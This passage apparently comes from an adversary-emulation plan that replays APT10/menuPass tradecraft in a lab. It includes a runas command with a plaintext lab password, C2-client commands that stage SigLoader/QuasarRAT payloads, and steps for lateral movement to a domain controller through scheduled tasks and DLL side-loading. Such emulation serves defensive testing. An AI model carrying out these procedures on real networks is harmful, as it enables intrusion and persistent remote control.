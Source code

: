   ```
  runas /netonly /user:DIGIRUNAWAY\kizumi.da cmd.exe
  ```

  | Password |
  | -------- |
  | ydJEeqNzN4Xqkd9h@ |

### :mag: Reference Code & Reporting

1. <https://blogs.blackberry.com/en/2019/06/threat-spotlight-menupass-quasarrat-backdoor>
1. <https://medium.com/cycraft/supply-chain-attack-targeting-taiwan-financial-sector-bae2f0962934>
1. <https://web.archive.org/web/20191028183408/https://blog.ensilo.com/uncovering-new-activity-by-apt10>
1. <https://securelist.com/apt10-sophisticated-multi-layered-loader-ecipekac-discovered-in-a41apt-campaign/101519/>
1. <https://media.kasperskydaily.com/wp-content/uploads/sites/86/2021/02/25140359/greatidea_A41_v1.0.pdf>
1. <https://www.trendmicro.com/ja_jp/research/21/l/Sigloader-by-Earth-Tengshe.html>
1. <https://jsac.jpcert.or.jp/archive/2021/pdf/JSAC2021_202_niwa-yanagishita_en.pdf>
1. <https://www.fortinet.com/blog/threat-research/uncovering-new-activity-by-apt->

 <details><summary>:link: Click to expand source code links table</summary></details>

<br>

## Step 4 - Lateral Movement to Subsidiary A Domain Controller

### :microphone: Voice Track

Using the first QuasarRAT implant, menuPass downloads a second copy of
SigLoader/QuasarRAT to the IIS Server `gabumon (10.10.10.9)` then uses the
elevated Command Prompt to move the executable to the Subsidiary A Domain
Controller `parrotmon (10.10.10.4)`.

Using the elevated Command Prompt, menuPass uses the `schtasks` utility to
remotely create and run a scheduled task on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)` that executes a legitimate executable:
`Notepad++.exe`.

This legitimate executable executes SigLoader via DLL side-loading and results
in a second QuasarRAT implant on the Subsidiary A Domain Controller `parrotmon (10.10.10.4)`.
This second QuasarRAT implant will connect to the C2 server using a redirector at `notepad-plusplus-updates[.]eu (121.93.99.100)`.

### ☣️ Procedures

* Using the QuasarRAT on the IIS Server `gabumon (10.10.10.9)`, download a second copy of
SigLoader/QuasarRAT components. **Wait until each command has returned before executing the next**.
  * SigLoader layer 1

    ```
    ./evalsC2client.py --set-task F5B06FACBDB06686ABA3E958BE433EF5 '{"type": 2, "transfer_src": "C:\\menu_pass\\Resources\\payloads\\quasar\\DC_layer1.dll", "transfer_dst": "C:\\Users\\kizumi\\AppData\\Local\\Temp\\VERSION.dll"}'
    ```
